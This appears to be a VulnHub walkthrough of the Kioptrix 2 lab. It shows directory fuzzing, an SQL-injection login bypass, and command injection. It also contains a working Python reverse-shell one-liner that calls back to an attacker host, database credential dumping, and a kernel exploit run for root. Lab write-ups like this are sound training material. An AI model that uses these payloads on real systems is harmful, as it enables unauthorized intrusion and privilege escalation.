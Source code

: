 # Table of contents

- [Recon](#recon)
  - [TCP/80 - HTTP](#tcp80---http)
    - [FFUF](#ffuf)
  - [TCP/80 - HTTPS](#tcp80---https)
    - [FFUF](#ffuf)
- [Initial Foothold](#initial-foothold)
  - [TCP/80 - HTTP - SQLi + Command Injection](#tcp80---http---sqli--command-injection)
- [Privilege Escalation](#privilege-escalation)
  - [Root - Via Kernel Exploit](#root---via-kernel-exploit)

# Recon
## TCP/80 - HTTP
### FFUF
```
┌──(root💀kali)-[~/vulnHub/kioptrix2/192.168.1.102]
└─# ffuf -u http://192.168.1.102/FUZZ -w /usr/share/wordlists/dirb/common.txt -e ".html,.txt,.php" -fw 21

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.102/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .html .txt .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 21
________________________________________________

                        [Status: 200, Size: 667, Words: 35, Lines: 32]
index.php               [Status: 200, Size: 667, Words: 35, Lines: 32]
manual                  [Status: 301, Size: 315, Words: 20, Lines: 10]
:: Progress: [18460/18460] :: Job [1/1] :: 8158 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

## TCP/80 - HTTPS
### FFUF
- Same as TCP/80


# Initial Foothold
## TCP/80 - HTTP - SQLi + Command Injection
1. Proceed to `/manual`
	- Default Apache Documentation
2. Proceed to `/index.php`
	![](images/Pasted%20image%2020220123170339.png)
3. Attempt SQLi Auth Bypass
	```
	# OR 1=1#
	```
	![](images/Pasted%20image%2020220123170557.png)
4. Attempt Command Injection
	```
	`id`
	;id
	```
	![](images/Pasted%20image%2020220123170705.png)
5. Execute Reverse Shell
	```
	;python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.1.1",4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
	```
6. Obtain apache shell
	```
	┌──(root💀kali)-[~/vulnHub/kioptrix2/192.168.1.102]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 192.168.1.102.
	Ncat: Connection from 192.168.1.102:32778.
	sh-3.00$ whoami
	whoami
	apache
	sh-3.00$ 
	```
	![](images/Pasted%20image%2020220123171406.png)


# Privilege Escalation
## Root - Via Kernel Exploit
1. Check for SQL Credentials, view index.php
		![](images/Pasted%20image%2020220123174519.png)
	- john:hiroshima
2. Access mysql to obtain more creds
	```
	bash-3.00$ mysql -u john -p
	Enter password: hiroshima
	Welcome to the MySQL monitor.  Commands end with ; or \g.
	Your MySQL connection id is 25 to server version: 4.1.22

	Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

	mysql> show databases;
	+----------+
	| Database |
	+----------+
	| mysql    |
	| test     |
	| webapp   |
	+----------+
	
	mysql> use webapp
	Reading table information for completion of table and column names
	You can turn off this feature to get a quicker startup with -A
	
	Database changed
	mysql> show tables;
	+------------------+
	| Tables_in_webapp |
	+------------------+
	| users            |
	+------------------+
	1 row in set (0.00 sec)

	mysql> show columns from users;
	+----------+--------------+------+-----+---------+-------+
	| Field    | Type         | Null | Key | Default | Extra |
	+----------+--------------+------+-----+---------+-------+
	| id       | int(11)      | YES  |     | NULL    |       |
	| username | varchar(100) | YES  |     | NULL    |       |
	| password | varchar(10)  | YES  |     | NULL    |       |
	+----------+--------------+------+-----+---------+-------+
	3 rows in set (0.00 sec)

	mysql> select * from users;
	+------+----------+------------+
	| id   | username | password   |
	+------+----------+------------+
	|    1 | admin    | 5afac8d85f |
	|    2 | john     | 66lajGGbla |
	+------+----------+------------+
	2 rows in set (0.00 sec)
	```
3. Tried to switch user to john w/ obtain creds, failed
4. Ran linpeas
	![](images/Pasted%20image%2020220123174958.png)
5. Find Kernel Exploit
	```
	┌──(root💀kali)-[~/vulnHub/kioptrix2/192.168.1.102/exploit]
	└─# searchsploit 2.6 centos
	 
	Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 
	linux/local/9545.c
	

	```
6. Transfer Exploit
7. Compile & Exploit
	```
	sh-3.00$ gcc 9545.c -o exploit; chmod +x exploit; ./exploit
	gcc 9545.c -o exploit; chmod +x exploit; ./exploit
	9545.c:376:28: warning: no newline at end of file
	sh-3.00# whoami
	whoami
	root
	sh-3.00# cd /root
	cd /root
	sh-3.00# ls
	```
	![](images/Pasted%20image%2020220123180749.png)


---
Tags: #exploit/sqli/auth-bypass #exploit/command-injection #linux-priv-esc/kernel-exploit 

---
